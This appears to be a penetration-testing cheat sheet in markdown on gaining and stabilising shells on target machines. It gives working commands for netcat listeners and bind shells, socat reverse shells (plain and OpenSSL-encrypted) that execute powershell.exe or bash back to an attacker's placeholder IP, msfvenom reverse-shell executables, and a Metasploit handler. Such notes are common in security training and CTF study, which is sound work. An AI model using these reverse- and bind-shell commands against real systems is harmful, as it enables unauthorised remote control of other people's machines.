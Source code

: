 ```yaml
---
icon: terminal
---
```


# Shells

### Key Concepts

#### Types of Shells

Interactive: you can interact with programs after executing them (e.g. nano)

* TeleTYpewriter (TTY): A fully interactive and stable terminal session

Non-Interactive: limited to using programs that don't require user interaction. Most reverse/bind shells are non-interactive.

## Reverse Shells

Target is forced to execute code that connects back to you computer. Attacker uses a listener to catch connection.&#x20;

{% hint style="info" %}
Can bypass firewalls rules and is far more commonly used.
{% endhint %}

### Netcat

`nc -lvnp PORT_NUMBER`

`-l` act as a listener

`-v` request a verbose output

`-n` do not resolve hostnames or use DNS

`-p` indicates what port to use

{% hint style="info" %}
By default, netcat reverse shells are very unstable. We have to upgrade them.
{% endhint %}

#### Upgrading a Netcat Shell

Python:

1. `python -c 'import pty;pty.spawn("/bin/bash")'` to spawn a bash shell on target machine
2. `export TERM=xterm` to allow Terminal commands (on attacker machine)
3. `Ctrl+Z` to background the current reverse shell process
4. `stty raw -echo` to pass all keystrokes to the remote shell
5. `fg` to bring the backgrounded reverse shell back to the foreground
6. (Once exited reverse shell) use `reset` to restore terminal to normal

rlwrap (Good for Windows shells):

1. `rlwrap nc -lvnp PORT_NUMBER`&#x20;
2. Same process as above to stabilize

Socat:\
use netcat as a stepping stone into a fully-featured Socat shell, only on Linux targets. Can use Socat for basic Windows shells.

1. Transfer a socat static compiled binary to target machine
2. Windows:&#x20;
   1. `socat TCP-L:PORT` for listener
   2. `socat TCP:LOCAL_IP:PORT EXEC:powershell.exe,pipes`&#x20;
3. Linux (with stabilization)
   1. `socat TCP-L:PORT FILE:tty,raw,echo=0` for listener
   2. `socat TCP:LOCAL_IP:PORT EXEC:"bash -li",pty,stderr,sigint,setsid,sane`&#x20;

We can also use encrypted socat shells, by replacing `TCP` with `OPENSSL` . You must have an SLL Certificate on the attacking machine:

```bash
#Generate certificate
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
#Merge into one .pem file
cat shell.key shell.crt > shell.pem
#Reverse shell listener
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 - verify=0
#On target machine
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

### Msfvenom

Used to generate code for reverse and bind shell, can also be used to generate hexadecimal shell code for buffer overflow exploit. Payloads in various formats of your choosing.

`msfvenom -p PAYLOAD OPTIONS`&#x20;

`-f` specify output format

`-o` output location and filename

`LHOST=IP` specifies IP to connect back to

`LPORT=PORT` specify port on local machine to connect back to\\

e.g. `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST= LPORT=`

Payload Types:

* Staged: sent in two parts, stager piece of code on target machine that connects back to a listener to load real payload, does not touch the disk
* Stageless: self-contained but the payload is on the disk so it's easier to catch

Metasploit Multi/Handler is a good tool to catch reverse shells (especially for meterpreter shells)

```bash
msfconsole #open metasploit
use multi/handler
options
set PAYLOAD <PAYLOAD> LHOST <LOCAL-IP> LPORT <PORT>
exploit -j #-j to run as background
```

### Web Shells

Some websites allow the ability to upload an executable file to active a reverse or bind shell. They are typically run inside a webserver in a language like PHP.



## Bind Shells

The code executed is a listener attached to a shell directly on the target.&#x20;

{% hint style="info" %}
May be protected by firewalls and is far less common.
{% endhint %}

On target machine: `nc -lvnp -e "cmd.exe"`

On attacker machine: `nc MACHINE_IP`



